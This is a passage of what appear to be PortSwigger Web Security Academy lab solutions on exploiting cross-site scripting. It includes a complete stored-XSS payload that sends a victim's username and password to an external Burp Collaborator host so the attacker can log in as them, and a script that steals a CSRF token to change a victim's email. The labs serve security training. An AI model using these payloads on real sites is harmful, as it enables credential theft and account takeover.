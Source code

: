 #### Alternative solution

Alternatively, you could adapt the attack to make the victim post their session cookie within a blog comment by [exploiting the XSS to perform CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf). However, this is far less subtle because it exposes the cookie publicly, and also discloses evidence that the attack was performed.

### Lab: Exploiting cross-site scripting to capture passwords

1.  Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
2.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3.  Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:  
    `<input name=username id=username>  
    <input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{  
    method:'POST',  
    mode: 'no-cors',  
    body:username.value+':'+this.value  
    });">`  
    This script will make anyone who views the comment issue a POST request to `burpcollaborator.net` containing their username and password.
4.  Go back to the Burp Collaborator client window, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5.  Take a note of the value of the victim's username and password in the POST body.
6.  Use the credentials to log in as the victim user.

#### Alternative solution

Alternatively, you could adapt the attack to make the victim post their credentials within a blog comment by [exploiting the XSS to perform CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf). However, this is far less subtle because it exposes the username and password publicly, and also discloses evidence that the attack was performed.

### Lab: Exploiting XSS to perform CSRF

1.  Log in using the credentials provided. On your user account page, notice the function for updating your email address.
2.  If you view the source for the page, you'll see the following information:
    
    -   You need to issue a POST request to `/my-account/change-email`, with a parameter called `email`.
    -   There's an anti-CSRF token in a hidden input called `token`.
    
    This means your exploit will need to load the user account page, extract the [CSRF token](https://portswigger.net/web-security/csrf/tokens), and then use the token to change the victim's email address.
3.  Submit the following payload in a blog comment:  
    `<script>  
    var req = new XMLHttpRequest();  
    req.onload = handleResponse;  
    req.open('get','/my-account',true);  
    req.send();  
    function handleResponse() {  
        var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];  
        var changeReq = new XMLHttpRequest();  
        changeReq.open('post', '/my-account/change-email', true);  
        changeReq.send('csrf='+token+'&email=test@test.com')  
    };  
    </script>`  